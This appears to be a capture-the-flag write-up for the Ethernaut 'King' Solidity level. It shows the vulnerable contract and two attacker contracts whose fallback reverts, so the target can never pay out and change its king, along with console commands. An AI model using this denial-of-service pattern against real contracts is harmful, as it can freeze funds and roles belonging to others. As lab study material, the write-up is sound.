 # King
```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

In this challenge, you'll see contract construct itself as owner & king.

Who paid more on it will become king (not owner), you should remain `king` value as your account or any other contract's address.

As `require(msg.value >= prize || msg.sender == owner);`, once you submit, level will get king back cause to its ownership.

King contract's fallback function will payback your payment and reset `king`'s and `prize`'s value for level.

Here's the point, `<address>.transfer()` can be reject and then return `false` to terminate the fallback function.

So, obviously, we should deploy a new contract which has a always reject payment's fallback function and can send some ether to target King contract.

```javascript
fromWei((await contract.prize()).toNumber())
// 1 ether
```

```javascript
pragma solidity ^0.4.18;

contract dosKing {

    function dosKing() public payable{}

    function freeMoney(address param) public {
        param.call.value(1.001 ether)();
    }
    function myBalance() public view returns(uint) {
        return address(this).balance;
    }
    function refill() public payable {
    }
    function () public {
        revert();
    }
}
```

![](https://i.imgur.com/BAcW3BL.png)

This seems fail in transition to ethernaut instance, but you can get you money back before you drop this ccontract.

```javascript
pragma solidity ^0.4.18;

contract dosKing {
    function dosKing(address param) public payable{
        param.call.gas(10000000).value(msg.value)();
    }
}
```

![](https://i.imgur.com/xsQ1s45.png)

This work fine.

```javascript
contract.sendTransaction({value:toWei(1.0001)})
```

This is most odd solution, why won't instance payback my money after I summit it to level?

This challenge remain question, maybe due to Solidity's update?

I will back to this misc, if I find out the answer.